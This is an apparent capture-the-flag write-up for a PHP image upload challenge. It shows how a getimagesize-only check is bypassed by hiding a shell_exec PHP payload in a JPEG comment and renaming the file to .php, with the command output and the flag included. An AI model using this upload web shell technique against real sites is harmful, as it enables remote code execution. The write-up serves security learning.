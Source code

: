 # image.php

* **Category:** Web
* **Points:** 300

## Challenge
http://appventure.nushigh.edu.sg:15590/

Here's an image editor software I made, I think its super secure since you can only upload images.

## Solution
The URL links to a image upload web application.
Viewing the [source](http://128.199.242.14:15590/upload.php?source),
we can see that the code saves the uploaded file to an uploads directory:
```php
// no overwriting files here because basename ONLY strips paths
$target_resized_file = "uploads/".basename($file_name);
$ok = rename($file_tmp_result_name, $target_resized_file);
```
It also checks that the uploaded file is actually an image.
```php
$check = getimagesize($file_tmp_name);
```
Luckily, [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) seems to have some vulnerabilities,
and php docs even warns against its use for image validation:

> Do not use getimagesize() to check that a given file is a valid image. Use a purpose-built solution such as the Fileinfo extension instead.

Uploading an image shows that files are saved to a directory in the webroot.  
Changing the extension of an image to php isn't blocked, and the image displays as usual.  
Most web servers will execute files ending in .php in the webroot. This provides a vector for us to execute our code.  
With some searching, I found a [method](https://security.stackexchange.com/a/53966) for hiding PHP code in a jpeg image.  
It involves manipulation of the JPEG EXIF metadata to add code in the comments field.

### Execution
With this information, we can formulate the exploit.
I used a random JPEG image:  
![cat](cat.jpeg)

To edit the JPEG headers, I used [jhead](http://www.sentex.net/~mwandel/jhead/).  
Executing `./jhead -ce cat.jpeg` allows for editing of the JPEG comment.

I used this PHP payload:
```php
<?php echo shell_exec("ls"); __halt_compiler();
```
The `__halt_compiler()` prevents the execution of JPEG data which messes stuff up.  
Reading the modified JPEG file, we can see that our payload is in the JPEG metadata:
```
▒▒▒▒JFIFHH▒▒1<?php echo shell_exec("ls"); __halt_compiler();▒▒ICC_PROFILE                                                                                                                ▒?Q!▒)▒2;▒FQw]▒kpz▒▒▒|▒i▒}▒▒▒0▒▒▒▒▒
...
```

I also had to change the extension of the file from `.jpeg` to `.php` so that the webserver executes our payload.  
The modified image is at [cat.jpeg.php]():  
![cat.jpeg.php](cat.jpeg.php)  
The image still loads as normal, so all is good.

Uploading the file and opening the URL in a browser produces:
```
����JFIFHH��1;%0Als -al;.jpg cantcommunicate.png cat.jpeg.php communicate.png file.jpg.php flag.php owowhatsthis.JPG poster.jpg test.jpeg test.jpeg.php test.php
```
This shows a listing of all the files in the current directory, so our exploit worked!  
Once we have a successful code execution payload, it is trivial to modify the payload to locate and read the flag file.

## Flag
`NUSHCTF{D0nt_Upload_Into_Webro0t}`
